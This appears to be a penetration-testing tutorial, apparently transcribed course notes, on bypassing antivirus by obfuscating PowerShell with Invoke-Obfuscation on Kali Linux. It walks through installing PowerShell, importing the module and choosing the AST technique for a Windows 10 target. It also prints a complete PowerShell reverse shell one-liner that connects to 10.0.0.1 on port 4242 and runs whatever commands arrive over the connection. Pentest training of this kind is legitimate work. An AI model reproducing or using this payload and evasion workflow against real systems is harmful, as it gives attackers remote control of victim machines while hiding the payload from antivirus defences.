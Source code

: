 In the context of an antivirus solution, obfuscation will make it harder to flag or rather harder to analyze as and obviously categorize as either malicious or not. 

[danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation/)

The way it works is that it allows us to load up or to load in our PowerShell script that we want to execute on the target. It then provides us with various options that we can use to obfuscate or encode the code. And then generates the output, which we can then save into a new PowerShell script, and that PowerShell script is fully obfuscated or encoded, and we can then transfer that to the target system for execution. Or alternatively, that code can be included as part of a larger exploit. 

How do we execute or load or import a PowerShell module on Linux? We can run PowerShell on Linux, and that can be done by installing the PowerShell package, which is part of the Kali Linux repositories. That will allow us to import the Invoke-Obfuscation PowerShell module here. And consequently, allow us to load up Invoke-Obfuscation, which we can then use to pass in our reverse shell code, which is going to be in PowerShell.

```
sudo apt-get install powershell -y
```

How do you launch PowerShell on Linux?

```
pwsh
```

We have access to a PowerShell session on Linux. So that means we can execute PowerShell scripts and import modules that we can then use.

```
PS /home/kali/Desktop/AVBypass> cd ./Invoke-Obfuscation/
PS /home/kali/Desktop/AVBypass/Invoke-Obfuscation> dir
PS /home/kali/Desktop/AVBypass/Invoke-Obfuscation> Import-Module ./Invoke-Obfuscation.psd1
PS /home/kali/Desktop/AVBypass/Invoke-Obfuscation> cd ..
PS /home/kali/Desktop/AVBypass> Invoke-Obfuscation
```

What's the most important here is the obfuscation or encoding techniques.

You then have AST, which is what we are going to be using. And this is for PowerShell version 3 and higher. That's because the target is running Windows 10, and this specific technique works probably the best out of all of them.

Firstlt, we need to create our reverse shell PowerShell script.

[Reverse Shell Cheatsheet Powershell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Kali Linux: 10.10.10.10
